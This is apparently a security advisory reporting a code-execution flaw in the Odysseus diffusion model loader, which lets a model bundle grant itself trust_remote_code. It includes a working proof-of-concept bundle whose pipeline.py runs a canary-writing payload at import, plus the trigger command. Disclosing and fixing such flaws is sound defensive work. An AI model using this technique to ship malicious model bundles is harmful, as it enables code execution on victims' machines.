# Odysseus dev (934d23c) — Unsafe Reflection in the Diffusion Model Loader

## Summary

Odysseus (`odysseus-dev/odysseus`, a self-hosted AI workspace) is affected by an unsafe-reflection flaw (CWE-470) in `scripts/diffusion_server.py`, the loader its agent starts as `python3 scripts/diffusion_server.py --model <dir> --port 8100` for any downloaded Diffusers model directory. When the bundle's `model_index.json` carries a `_class_name` that is not a diffusers class, the loader grants `trust_remote_code=True` on the bundle's behalf and, on failure, retries with `custom_pipeline=model_path`, causing diffusers to dynamically import the bundle's own `pipeline.py`. A model directory obtained from any third party therefore executes attacker Python at import time, in the serving process, without operator consent. A negative control that differs only in the `_class_name` value loads without ever importing the file.

## Affected Product

| Field | Value |
|---|---|
| Vendor | odysseus-dev |
| Product | Odysseus (self-hosted AI workspace) |
| Affected versions | dev branch commit `934d23c0be29c9721385f34565c0ae2cbd60da04` (2026-09-05); identical code still present at dev HEAD `e3035826bce87dca91a6036e133f0f892ef50bdc` (2026-09-29, re-checked 2026-09-30); no fix published |
| Component | `scripts/diffusion_server.py`, `load_model()` / `_load_pipe()` (started by the agent `serve_model` tool, `src/agent_loop.py:399`, `src/tools/cookbook.py:458`) |
| Platform | Cross-platform Python service; verified on Windows 11 x64 (build 26200), Python 3.13.5, diffusers 0.40.0, transformers 5.6.2, torch 2.12.0+cpu |
| Vulnerability type | CWE-470: Use of Externally-Controlled Input to Select Classes or Code ("Unsafe Reflection"), leading to arbitrary code execution (CWE-94) |

## Root Cause

**Location:** `scripts/diffusion_server.py:415-444` (`_load_pipe`, called from `load_model()` at line 342; detection of `_class_name` at lines 372-386; final failure at line 638), commit `934d23c0be29c9721385f34565c0ae2cbd60da04`.

`load_model()` reads `_class_name` from the untrusted bundle's `model_index.json` and only checks it against the diffusers namespace. The trust decision is then taken from that same field in two places. First attempt (lines 422-424) — if the name is unknown, the loader self-grants `trust_remote_code`:

```python
kwargs = {"torch_dtype": torch_dtype}
if name == "DiffusionPipeline" and cls_name_from_index and not hasattr(diffusers, cls_name_from_index):
    kwargs["trust_remote_code"] = True  # granted because of the artifact's own data field
_pipe = cls.from_pretrained(model_path, **kwargs)
```

When that first attempt raises, the retry (lines 427-437) hands the model directory to diffusers as a custom pipeline with trust enabled:

```python
if name == "DiffusionPipeline" and cls_name_from_index and not hasattr(diffusers, cls_name_from_index):
    try:
        logger.info(f"Retrying {name} with custom_pipeline={model_path}")
        _pipe = cls.from_pretrained(
            model_path,
            torch_dtype=torch_dtype,
            custom_pipeline=model_path,   # diffusers imports <bundle>/pipeline.py here
            trust_remote_code=True,
        )
```

`model_path` is fully attacker-chosen: it is the directory the victim asked Odysseus to serve, and community model bundles are routinely downloaded from third parties. `custom_pipeline=<local dir>` makes diffusers import `pipeline.py` from that directory as a dynamic module (the server log shows the module name `diffusers_modules.local.pipeline.OdysseusDemoPipeline`), and module-level code runs at import time — before any pipeline object exists and before any model weight is read. The consent gate that `trust_remote_code` represents in the diffusers ecosystem ("only pass it if you trust the repository") is therefore satisfied by data from the artifact itself, not by the operator. The same self-grant pattern also exists on the inpaint/harmonize load paths of the same file (lines 479, 493-495).

## Proof of Concept

### Prerequisites

- Odysseus checkout at the affected commit with `scripts/diffusion_server.py` runnable (`pip install diffusers torch fastapi uvicorn python-multipart`); the victim serves a model directory obtained from a third party.
- The bundle needs no real weights: the payload fires at import time.

### The package

`model_index.json` — the only data difference between the two bundles is `_class_name`:

```json
{
  "_class_name": "OdysseusDemoPipeline",
  "_diffusers_version": "0.40.0",
  "scheduler": ["DDIMScheduler", null],
  "text_encoder": ["CLIPTextModel", null],
  "tokenizer": ["CLIPTokenizer", null],
  "unet": ["UNet2DConditionModel", null],
  "vae": ["AutoencoderKL", null],
  "safety_checker": [null, null],
  "requires_safety_checker": false
}
```

`pipeline.py` — the program shipped in both bundles (byte-identical); its module-level code is the payload, an inert canary write to an attacker-chosen path, followed by the pipeline class diffusers will resolve:

```python
import os, pathlib, time
_MARKER = pathlib.Path(os.environ.get("PUBLIC", str(pathlib.Path.home()))) / "pwned_by_odysseus_consent_gate.txt"
if not _MARKER.exists():
    _MARKER.write_text("MBE2E-CANARY root=odysseus.consent_gate_self_trigger v=1\n"
                       "proof: pipeline.py of the model bundle was imported by diffusers\n"
                       "time: " + time.strftime("%Y-%m-%dT%H:%M:%S") + "\n"
                       "pid: " + str(os.getpid()) + "\n", encoding="utf-8")
from diffusers import DiffusionPipeline
class OdysseusDemoPipeline(DiffusionPipeline):
    def __call__(self, prompt=None, num_inference_steps=1, **kwargs):
        raise RuntimeError("demo pipeline never intended to run inference")
```

`unet/config.json` and `unet/diffusion_pytorch_model.safetensors` (a handcrafted 32-byte tensor file) complete a realistic bundle. The negative control `ody-benign` is byte-identical in `pipeline.py`, `unet/config.json` and the safetensors; only `_class_name` reads `"DiffusionPipeline"`. SHA256 proofs: `poc/SHA256SUMS.txt`.

### Steps to Reproduce

1. Build both bundles and verify the shared files are byte-identical:





```
python make_poc.py
```



2. Inspect the evil bundle layout:



3. Confirm the vulnerable code sits where claimed (numbered print of `scripts/diffusion_server.py` lines 419-438):



4. Confirm the canary does not exist yet:



5. Serve the evil bundle exactly as the product does — this step executes attacker code:

```
python pinned-odysseus-934d23c\scripts\diffusion_server.py --model bundles\ody-evil --port 8111
```




6. Read the canary — proof that `pipeline.py` executed at import time:



7. Negative control — same bytes, `_class_name` flipped to `DiffusionPipeline`:







### Expected vs Actual

- Expected: a model directory whose `_class_name` is not a diffusers class is refused (or accepted only after the operator explicitly opts into custom code); no file inside the bundle is imported or executed.
- Actual: the loader treats the unknown `_class_name` as grounds to self-grant `trust_remote_code=True` and to retry with `custom_pipeline=<the bundle>`, so the bundle's `pipeline.py` is imported and its module-level code runs. The subsequent load failure does not undo the execution.

### Sanitized PoC input

```
Trigger command: python scripts/diffusion_server.py --model <third-party model dir> --port 8111
Discriminating field (model_index.json): "_class_name": "OdysseusDemoPipeline"   (any name outside the diffusers namespace)
Payload: pipeline.py shipped in the same bundle, executed at import time; canary written to %PUBLIC%\pwned_by_odysseus_consent_gate.txt
Negative control: identical bundle with "_class_name": "DiffusionPipeline" — no import, no canary
```

## Impact

- Confidentiality: High — attacker Python runs inside the diffusion-server process with the serving user's rights; it can read anything that user can read (credentials, model caches, API keys in env).
- Integrity: High — the payload can write/modify arbitrary files as that user; the canary write to `%PUBLIC%` is a minimal demonstration.
- Availability: High — the process can be killed or weaponized; the serving host's GPU box is affected too when the cookbook flow (`--host 0.0.0.0`) is used.
- Scope: arbitrary code execution from untrusted model content while the operator never consented to custom code.


## Remediation

Never derive the trust decision from bundle contents. Concretely, in `scripts/diffusion_server.py`: remove the data-driven grants at lines 422-424 and 427-437 (and the same pattern at lines 479, 493-495); add an explicit operator flag (e.g. `--trust-remote-code` / `--allow-custom-pipeline`) that must be passed to enable any dynamic import; before importing, print and (in the app UI) confirm the exact module path that is about to execute; default to refusing unknown `_class_name` values with a clear error. Until patched, operators should not serve model directories from untrusted sources and should pre-vet bundles for `pipeline.py` / unexpected `_class_name` values.

## References

- Source repository: https://github.com/odysseus-dev/odysseus
- Affected commit: https://github.com/odysseus-dev/odysseus/tree/934d23c0be29c9721385f34565c0ae2cbd60da04
- Vulnerable file: https://github.com/odysseus-dev/odysseus/blob/934d23c0be29c9721385f34565c0ae2cbd60da04/scripts/diffusion_server.py (lines 415-444)
- Vendor security policy: SECURITY.md in the repository ("report vulnerabilities privately via GitHub security advisories")
- CWE-470: https://cwe.mitre.org/data/definitions/470.html
- CWE-94: https://cwe.mitre.org/data/definitions/94.html
- diffusers custom pipeline loading (the mechanism the retry reaches): https://huggingface.co/docs/diffusers/en/using-diffusers/custom_pipeline_overview
